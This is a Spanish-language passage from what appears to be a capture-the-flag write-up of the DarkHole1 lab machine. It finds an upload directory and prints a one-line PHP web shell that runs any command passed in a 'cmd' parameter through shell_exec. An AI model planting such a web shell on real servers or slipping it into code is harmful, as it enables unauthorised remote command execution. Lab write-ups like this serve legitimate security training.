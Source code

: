 Existe un directorio **upload**, vamos a verlo:

![](/imagenes/DarkHole1/darkhole1_13.png)

Aquí se guardan las cosas que subimos, podemos observar que está nuestro archivo de prueba:

![](/imagenes/DarkHole1/darkhole1_14.png)

Vamos a intentar subir un archivo php malicioso que nos permita controlar mediante una variable **cmd** los comandos que queremos ejectuar en el sistema:

```php
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

Vamos a poner esto en nuestro archivo de subirlo:

![](/imagenes/DarkHole1/darkhole1_15.png)
